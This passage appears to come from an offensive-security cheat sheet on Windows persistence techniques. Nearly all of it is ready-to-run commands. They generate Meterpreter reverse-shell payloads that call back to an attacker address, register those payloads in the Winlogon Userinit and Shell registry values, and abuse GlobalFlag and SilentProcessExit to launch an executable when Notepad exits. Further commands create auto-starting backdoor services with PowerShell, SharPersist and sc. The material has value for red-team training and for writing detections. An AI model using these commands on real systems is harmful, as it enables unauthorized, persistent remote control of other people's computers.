 #### Winlogon Helper DLL

> Run executable during Windows logon

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
```


#### GlobalFlag

> Run executable after notepad is killed

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```

### Startup Elevated

Create a batch script in the user startup folder.

```powershell
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 
```

### Services Elevated

Create a service that will start automatically or on-demand.

```powershell
# Powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here." -StartupType Automatic
sc start pentestlab

# SharPersist
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c backdoor.exe" -n "Backdoor" -m add

# sc
sc create Backdoor binpath= "cmd.exe /k C:\temp\backdoor.exe" start="auto" obj="LocalSystem"
sc start Backdoor
```
